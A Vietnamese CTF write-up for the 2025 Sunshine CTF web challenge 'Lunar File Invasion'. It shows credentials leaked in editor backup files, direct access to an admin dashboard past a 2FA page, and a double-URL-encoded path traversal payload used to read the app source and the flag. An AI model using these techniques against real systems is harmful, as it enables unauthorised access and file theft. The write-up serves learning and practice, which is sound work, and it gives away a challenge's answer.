 # 2025 Sunshine CTF - Lunar File Invasion

Mô tả của challenge:
```
We recently started a new CMS, we've had issues with random bots scraping our pages but found a solution with robots! Anyways, besides that there are no new bug fixes. Enjoy our product!

Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate limiting!

https://asteroid.sunshinectf.games
```
## Solution

Tôi thử kiểm tra xem có tệp `/robots.txt` không. Kết quả trả về:
```
# don't need web scrapers scraping these sensitive files:
Disallow: /.gitignore_test
Disallow: /login
Disallow: /admin/dashboard
Disallow: /2FA
```

Thử truy cập vào `/.gitignore_test`:

```
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```

Thử truy cập vào cả 3 `/static directory` trên thì `/index/static/login.html~` trả về nội dung quan trọng:
```html
<input value="admin@lunarfiles.muhammadali" type="text" name="email">
<input value="jEJ&(32)DMC<!*###" type="text" name="password">
```

Truy cập vào `/login`, dùng email và password trong file HTML để đăng nhập. Khi đăng nhập thành công trang web đưa ta đến `2FA page`:

![alt text](image.png)

Thử truy cập vào `/admin/dashboard` ta đã bypass được 2FA và đến trang `Lunar File Management CMS`

![alt text](image-1.png)

Truy cập `Manage Files` ta thấy có 3 flie secret file txt. 

Nội dung `secret2.txt`:
```
From Muhammad:
so we triggered IR, one of the attackers somehow got their hands on our /etc/passwd file because it's on every Linux machine.

I did some research and a lot of the techniques they did were from Hacktricks website! :(((
```

Lúc này ta nghĩ ngay đến path traversal. Kiểm tra src của `/admin/lunar_shop`, ta tìm thấy một điểm quan trọng: 
```js
function fetchFileContent(filename) {
// no need ot URLEncode this is JS argument being pssed in,
// plug we already URLencoded via flask's | urlencode
const viewUrl = `/admin/download/${filename}`;
...
}
```

Thử tìm `app.py` với `https://asteroid.sunshinectf.games/admin/download/app.py` trang web trả về `302 Found`, tương tự `run.py` và `yourappenv` cũng vậy.

Thử thao tác đường dẫn bằng cách thêm dấu / để truy cập vào kiến ​​trúc bên trong với
`https://asteroid.sunshinectf.games/admin/download//app.py`:
```html
<p>You should be redirected automatically to the target URL: <a href="http://127.0.0.1:25307/admin/download/app.py">http://127.0.0.1:25307/admin/download/app.py</a>
```

Ta thấy chúng đang chạy trên cổng 25307.

Thử Path Traversal bằng urlencode (single-encoded %2f) để tìm app.py
```
https://asteroid.sunshinectf.games/admin/download/..%2f..%2f..%2fapp.py
```
Nó trả về `400 Bad Request` điều này chỉ ra trang web có blacklist of characters trong path traversal. Thử double-encode %252f:

![alt text](image-3.png)

Tăng mức độ taversal nhiều lần kết quả vẫn như vậy. Giờ hãy thử sử dụng relative path `./` thay vì urlencoded thành `.%252f` và thu được kết quả:

![alt text](image-4.png)

Nội dung `app.py`:
```python
import os

with open("./FLAG/flag.txt", "r") as f:
    FLAG = f.read()

from flask import *
from flask_login import (
    LoginManager,
    login_user,
    login_required,
    logout_user,
    current_user,
)
from flask_wtf.csrf import CSRFError

# blueprint stuff:
from models import *
from admin import admin_blueprint
from index import index_blueprint
# ^^ this is what I meant by:
# "the dir is"
# treated as a package in a sense.

# global
from extensions import *


# clean up the login page and make it functional then we can start piecing together the LFI dashboard
# functionality too

# Initializing the app-specific stuff:
app = Flask(__name__)

# registering the blueprint
app.register_blueprint(admin_blueprint, url_prefix="/admin")
app.register_blueprint(index_blueprint, url_prefix="/")
# app.static_folder = 'global_static'

app.config["SECRET_KEY"] = os.urandom(64).hex()
bcrypt_object.init_app(app)

# since we're directly pass in the app object we can directly use it in our templates with JINJA2 syntax
csrf.init_app(app)

# I know for a fact ppl will try to bruteforce the pin which is millions of requests,
# we're stopping that before it begins with the default rate-limit being set to 5 requests/second.

# TODO: remove this, just use NGINX, kills 2 birds with 1 stone bcs we can also config passwd for kev's test instance.

# Initialize Flask-Login
login_manager = LoginManager()
login_manager.init_app(app)
login_manager.login_view = (
    "index.login"  # Redirect to admin login page if not logged in
)
# the way this works is it checks if current_user.is_authenticated is set to True, this value is retrieved from
# the load_user() function (so it's called everytime implicitly on routes that have the @login_required() decorator


@login_manager.user_loader
def load_user(user_id):
    return session.query(User).get(user_id)


################################################################


# Wrapper for Error handling any invalid CSRF tokens.
@app.errorhandler(CSRFError)
def handle_csrf_error(error):
    return render_template(
        "error.html",
        err_msg=f"[ Invalid CSRF Token, if this persists please enable JavaScript. ]",
    ), 400


################################################################
def create_app():
    return app


if __name__ == "__main__":
    app = create_app()
    app.run(host="0.0.0.0", port=8000, debug=False)
```

Tuyệt, ta tìm được cờ nằm ở `/FLAG/flag.txt`. Vì vậy thay `app.py` thành `/FLAG/flag.txt`: 

![alt text](image-5.png)

Thành công tìm được flag.
